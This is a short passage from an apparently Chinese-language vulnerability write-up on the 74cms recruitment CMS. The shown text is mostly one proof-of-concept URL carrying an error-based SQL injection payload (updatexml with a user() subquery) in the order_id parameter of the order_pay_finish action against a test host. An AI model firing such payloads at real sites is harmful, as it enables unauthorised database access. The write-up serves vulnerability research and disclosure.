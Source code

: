 ![image](images/img66.png)

注册完成以后登录前台即可

```html
url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a
```

![image](images/img67.png)

## 0x07 74cms独有框架漏洞第三处
